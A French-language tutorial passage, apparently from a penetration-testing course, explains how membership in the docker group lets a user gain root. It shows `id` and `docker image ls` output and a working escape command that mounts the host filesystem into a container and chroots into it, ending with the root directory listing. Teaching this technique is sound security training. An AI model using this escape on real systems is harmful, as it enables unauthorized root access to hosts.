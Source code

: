 Pour obtenir les privilèges root via Docker, l'utilisateur avec lequel nous sommes connectés doit faire partie du `docker`groupe. Cela lui permet d'utiliser et de contrôler le démon Docker.

#### Docker Linux

  Docker Linux

```
docker-user@nix02:~$ id

uid=1000(docker-user) gid=1000(docker-user) groups=1000(docker-user),116(docker)

```

Alternativement, Docker peut avoir SUID défini, ou nous sommes dans le fichier Sudoers, ce qui nous permet de fonctionner `docker`en tant que root. Les trois options nous permettent de travailler avec Docker pour augmenter nos privilèges.

La plupart des hébergeurs disposent d'une connexion Internet directe car les images de base et les conteneurs doivent être téléchargés. Cependant, pour des raisons de sécurité, de nombreux hébergeurs peuvent être déconnectés d'internet la nuit et en dehors des heures de travail. Cependant, si ces hôtes sont situés dans un réseau où, par exemple, un serveur Web doit passer, il reste joignable.

Pour voir quelles images existent et auxquelles nous pouvons accéder, nous pouvons utiliser la commande suivante :

  Docker Linux

```
docker-user@nix02:~$ docker image ls

REPOSITORY                           TAG                 IMAGE ID       CREATED         SIZE
ubuntu                               20.04               20fffa419e3a   2 days ago    72.8MB

```

  Docker Linux

```
docker-user@nix02:~$ docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash
root@nix02:~# ls -l /mnt

total 68
lrwxrwxrwx   1 root root     7 Apr 23  2020 bin -> usr/bin
drwxr-xr-x   4 root root  4096 Sep 22 11:34 boot
drwxr-xr-x   2 root root  4096 Oct  6  2021 cdrom
drwxr-xr-x  19 root root  3940 Oct 24 13:28 dev
drwxr-xr-x 100 root root  4096 Sep 22 13:27 etc
drwxr-xr-x   3 root root  4096 Sep 22 11:06 home
lrwxrwxrwx   1 root root     7 Apr 23  2020 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Apr 23  2020 libx32 -> usr/libx32
drwx------   2 root root 16384 Oct  6  2021 lost+found
drwxr-xr-x   2 root root  4096 Oct 24 13:28 media
drwxr-xr-x   2 root root  4096 Apr 23  2020 mnt
drwxr-xr-x   2 root root  4096 Apr 23  2020 opt
dr-xr-xr-x 307 root root     0 Oct 24 13:28 proc
drwx------   6 root root  4096 Sep 26 21:11 root
drwxr-xr-x  28 root root   920 Oct 24 13:32 run
lrwxrwxrwx   1 root root     8 Apr 23  2020 sbin -> usr/sbin
drwxr-xr-x   7 root root  4096 Oct  7  2021 snap
drwxr-xr-x   2 root root  4096 Apr 23  2020 srv
dr-xr-xr-x  13 root root     0 Oct 24 13:28 sys
drwxrwxrwt  13 root root  4096 Oct 24 13:44 tmp
drwxr-xr-x  14 root root  4096 Sep 22 11:11 usr
drwxr-xr-x  13 root root  4096 Apr 23  2020 var

```